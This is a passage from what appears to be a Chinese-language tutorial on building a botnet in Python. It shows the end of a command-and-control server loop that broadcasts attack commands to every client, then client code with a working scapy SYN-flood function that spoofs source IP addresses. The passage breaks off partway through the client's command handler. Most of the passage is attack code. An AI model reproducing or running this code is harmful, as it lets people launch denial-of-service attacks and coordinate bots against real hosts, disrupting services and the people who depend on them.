```python
    
    '''
    3. 第三步
    循环等待输入命令，输入后判断是否符合命令格式的基本要求（自己定）
    满足，则把命令发送到所有客户端
    '''
    while True:
        print("=" * 50)
        print('The command format:"#-H xxx.xxx.xxx.xxx -p xxxx -c <start>"')


        # 等待输入的命令
        cmd_str = input('Please input command: ')
        if len(cmd_str):
            if cmd_str[0] == '#':
                sendCmd(cmd_str)


if __name__ == "__main__":
    main()

```

### 客户端实现
同样，具体的实现思路和流程，都写在代码内的注释中。  
客户端实现代码如下：  
```python
# -*- coding: utf-8 -*-
import sys
import random
import socket
import argparse
from multiprocessing import Process
from scapy.all import *

import os
isWorking = False
curProcess = None

# SYN flood attack
def synFlood(tgt,dPort):
    print('='*100)
    print('The syn flood is running!')
    print('='*100)
    srcList = ['201.1.1.2','10.1.1.102','69.1.1.2','125.130.5.199']
    for sPort in range(1024,65535):
        index = random.randrange(4)
        ipLayer = IP(src=srcList[index], dst=tgt)
        tcpLayer = TCP(sport=sPort, dport=dPort,flags="S")
        packet = ipLayer / tcpLayer 
        send(packet)

'''
3. 第三步
创建全部变量curProcess，用于判断是否有进程正在发起SYN泛洪攻击
循环等待接受命令，接收到的数据类型为byte型，需要对其进行解码，解码后才为字符串
'''
# Process Command
def cmdHandle(sock, parser):
    global curProcess
    # TODO
    count = 0
    while count <= 20:
```